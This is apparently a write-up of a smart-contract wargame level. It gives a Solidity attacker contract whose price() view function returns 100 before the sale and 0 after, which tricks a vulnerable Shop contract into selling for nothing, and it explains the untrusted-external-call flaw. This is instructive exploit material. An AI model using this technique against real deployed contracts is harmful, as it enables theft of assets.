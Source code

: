 ```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Shop {
  function buy() external;
  function isSold() external view returns(bool);
}

contract ShopBuy {
  Shop shop;

  constructor(address shopAddress) public {
      shop = Shop(shopAddress);
  }

  function buy() public {
    shop.buy();
  }

  function price() external view returns (uint) {
    return shop.isSold() ? 0: 100;
  }
}
```

Contracts can manipulate data seen by other contracts in any way they want. It's unsafe to change the state based on external and untrusted contracts logic. Shop should implement its own price function rather than calling the buyer price function as it can be malicious. So to pass this level a contract named ShopBuy with price function which returns >= 100 on first call and less than 100 on second call is required and we create price function similar to that. Price is view function so it cannot change state and it can be used for reading the state only.

Finally, we call buy function on Remix on ShopBuy to buy the item at 0 price.